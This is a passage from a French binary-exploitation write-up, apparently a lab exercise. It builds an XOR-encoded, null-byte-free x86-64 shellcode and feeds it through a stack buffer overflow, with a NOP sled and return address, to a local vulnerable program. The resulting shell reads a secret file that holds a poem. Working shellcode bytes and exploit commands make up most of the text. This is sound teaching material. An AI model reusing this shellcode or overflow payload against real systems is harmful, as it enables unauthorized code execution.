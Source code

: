 
 
Exécution du shellcode


* Saut sur le shellcode déchiffré ;
```asm
jmp rsp ; jump to the unxored shellcode
```
* Construction et appel du syscall execve sur la commande exit (non-nécessaire si le shellcode initial exécute la commande exit, mais ne gène pas dans le cas contraire).
```asm
xor rax,rax
push 60 ; exit
pop rax
syscall
```

Il nous faut maintenant l'assembler, le linker et en récupérer l'opcode :
```bash
zweisamkeit@linux [ Polsh ] --> nasm -f elf64 polsh.asm -o polsh.o && ld -o polsh polsh.o
zweisamkeit@linux [ Polsh ] --> objdump -d ./polsh | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\xeb\x24\x5e\x48\x83\xec\x29\x48\x8d\x3c\x24\x48\x31\xd2\x52\x5b\xb2\x29\xb3\x53\xac\x31\xd8\xaa\xff\xca\x75\xf8\xff\xe4\x48\x31\xc0\x6a\x3c\x58\x0f\x05\xe8\xd7\xff\xff\xff\x1b\x62\xac\x04\x04\x0d\x09\x1b\xec\x7c\x7c\x31\x3a\x3d\x7c\x20\x3b\x1b\x92\xbc\x5b\x04\x07\x0c\x39\x68\x0b\x5c\x56"
```

Nous remarquons dans un premier temps qu'il n'y a pas de null byte. En effet, la clé xor a été choisie de telle sorte qu'elle n'apparaisse pas déjà dans le shellcode non-chiffré, et les instructions incluant des null bytes ont été remplacées par des équivalents.

Il ne reste plus qu'à adapter notre payload à ce nouveau shellcode (à noter que la présence du caractère « 0x20 » dans le shellcode peut jouer le rôle de séparateur d'argument - c'est la raison pour laquelle nous passons par un fichier) :
```bash
zweisamkeit@linux [ Polsh ] --> python2.7 -c 'print "\xeb\x24\x5e\x48\x83\xec\x29\x48\x8d\x3c\x24\x48\x31\xd2\x52\x5b\xb2\x29\xb3\x53\xac\x31\xd8\xaa\xff\xca\x75\xf8\xff\xe4\x48\x31\xc0\x6a\x3c\x58\x0f\x05\xe8\xd7\xff\xff\xff\x1b\x62\xac\x04\x04\x0d\x09\x1b\xec\x7c\x7c\x31\x3a\x3d\x7c\x20\x3b\x1b\x92\xbc\x5b\x04\x07\x0c\x39\x68\x0b\x5c\x56"+"\x90"*208+"\x90\xe5\xff\xff\xff\x7f"' > payload
zweisamkeit@linux [ Polsh ] --> ./vuln "$(cat payload)"
Adresse buffer : 0x7fffffffe590
sh-4.4$ cat secret

Vous ne saurez jamais que votre âme voyage
Comme au fond de mon coeur un doux coeur adopté ;
Et que rien, ni le temps, d’autres amours, ni l’âge,
N’empêcheront jamais que vous ayez été.

Que la beauté du monde a pris votre visage,
Vit de votre douceur, luit de votre clarté,
Et que ce lac pensif au fond du paysage
Me redit seulement votre sérénité.

Vous ne saurez jamais que j’emporte votre âme
Comme une lampe d’or qui m’éclaire en marchant ;
Qu’un peu de votre voix a passé dans mon chant.

Doux flambeaux, vos rayons, doux brasiers, votre flamme,
M’instruisent des sentiers que vous avez suivis,
Et vous vivez un peu puisque je vous survis.

        - Vous ne saurez jamais, Marguerite Yourcenar
```
